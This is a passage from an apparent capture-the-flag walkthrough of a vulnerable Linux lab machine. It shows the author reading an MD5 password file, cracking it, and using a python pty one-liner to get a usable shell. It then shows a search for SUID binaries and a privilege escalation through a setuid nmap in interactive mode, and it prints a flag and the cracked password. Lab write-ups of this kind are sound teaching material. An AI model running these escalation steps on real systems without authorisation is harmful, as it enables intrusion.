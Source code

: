 Found the second flag, but couldn't read it. However, that md5 file was readable:

``` 
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

I cracked the MD5 hash to reveal the password *abcdefghijklmnopqrstuvwxyz* for the user robot. I tried switching to that user, but I got the following error:

``` 
$ su robot
su: must be run from a terminal
```

The error appears because the shell isn't interactive. But I ran into this before, and again [pentestmonkey's oneliners](http://pentestmonkey.net/blog/post-exploitation-without-a-tty) came to the rescue:

``` 
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ 
```

I grabbed the second flag, and noticed that my commands are now echoed in the terminal and it's annoying:

``` 
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```


## Flag #3

I couldn't find a workaround for that, so I just continued. When I looked for SUID binaries, I found a surprise:

``` 
robot@linux:/$ find / -type f \( -perm +4000 -o -perm +2000 \) -print 2> /dev/null
[...]
/usr/local/bin/nmap
```

After Googling, there even seems to be a [setuid Nmap exploit](https://www.rapid7.com/db/modules/exploit/unix/local/setuid_nmap) in Metasploit! I read more about this problem, and found an interesting [SANS paper](https://pen-testing.sans.org/resources/papers/gcih/attack-defend-linux-privilege-escalation-techniques-2016-152744) (the Nmap stuff begins on page 11). After some reading, I found that older versions of Nmap had an interactive mode, where you could run shell commands from or drop into a shell (similar to mysql):

``` 
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> 
```
